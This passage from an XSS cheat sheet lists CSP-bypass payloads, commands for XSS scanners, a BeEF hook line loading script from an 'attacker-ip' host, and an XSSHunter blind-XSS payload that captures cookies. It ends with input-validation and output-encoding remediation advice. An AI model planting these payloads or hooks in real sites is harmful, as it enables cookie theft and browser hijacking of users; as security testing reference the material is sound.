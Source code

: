   - **Bypass Techniques**
    - JSONP endpoints: `<script src="https://allowed-domain.com/jsonp?callback=alert(1)"></script>`
    - Angular exploitation when allowed: `<div ng-app ng-csp><div ng-click=$event.view.alert(1)>click me</div></div>`
    - DOM clobbering: `<form id=self><input name=message value="alert(1)"></form>`
    - Script gadgets (when libraries are allowed):
      - jQuery: `<div data-toggle="tooltip" data-html="true" title="<script>alert(1)</script>">`
      - React: `<a href="javascript:alert(1)" data-target="react-component">`
    - Iframe sandbox: `<iframe sandbox="allow-scripts allow-same-origin" src="data:text/html,<script>alert(1)</script>"></iframe>`

- **Testing Tools and Frameworks**
  - **XSS Detection Tools**
    - XSStrike: `python xsstrike.py -u "https://target.com/page.php?param=test"`
    - XSSer: `xsser --url "https://target.com/page.php?param=XSS" --auto`
    - KNOXSS (online tool)
    - DalFox: `dalfox url https://target.com/page.php?param=test`

  - **Browser Developer Tools**
    - Monitor DOM modifications using "Elements" panel
    - Set breakpoints on DOM changes
    - Track JavaScript execution in "Sources" panel
    - Use "Network" to monitor outbound data
    - Audit with Lighthouse security checks

  - **Frameworks**
    - BeEF (Browser Exploitation Framework):
      - Hook injection: `<script src="http://attacker-ip:3000/hook.js"></script>`
      - Browser fingerprinting
      - Social engineering modules
      - Keylogging capabilities
      - Network scanning from browser
    - XSSHunter:
      - Blind XSS detection
      - Payload: `"><script src="https://yoursubdomain.xss.ht"></script>`
      - Captures cookies, page screenshots, DOM content

- **Prevention and Remediation**
  - **Input Validation**
    - Whitelist acceptable inputs
    - Validate context-specific data (emails, numbers, usernames)
    - Type conversion before processing
    - Length limitations

  - **Output Encoding**
    - HTML context: Use HTML entity encoding
      - `&`, `<`, `>`, `"`, `'`, `/`
      - JavaScript libraries: DOMPurify, js-xss, sanitize-html
    - JavaScript context: JavaScript string encoding
      - `\'`, `\"`, `\\`, `\n`, `\r`
    - URL context: URL encoding
      - `encodeURIComponent()` in JavaScript
    - CSS context: CSS escaping
      - Backslash escape special characters
